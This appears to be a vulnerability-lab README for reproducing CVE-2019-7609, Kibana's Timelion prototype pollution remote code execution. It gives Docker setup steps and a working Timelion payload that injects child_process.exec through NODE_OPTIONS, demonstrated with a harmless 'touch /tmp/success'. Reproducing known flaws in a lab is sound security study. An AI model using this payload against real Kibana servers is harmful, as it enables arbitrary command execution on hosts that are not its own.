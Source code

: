 # Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)

[中文版本(Chinese version)](README.zh-cn.md)

Kibana is an open source data visualization dashboard for Elasticsearch.

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## Setup

Before you can setup the environment, you need to change `vm.max_map_count` to greater than 262144 in host server (not in the docker container):

```
sysctl -w vm.max_map_count=262144
```

Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:

```
docker compose up -d
```

## Vulnerability Reproduce

After started the environment, the Kibana is listening on `http://your-ip:5106`. The prototype pollution is happens in Timeline visualizer, fill in following payload here:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

Then, visit "Canvas" page to trigger the command `/bin/touch /tmp/success`. The file `/tmp/success` is created successfully:

![](2.png)
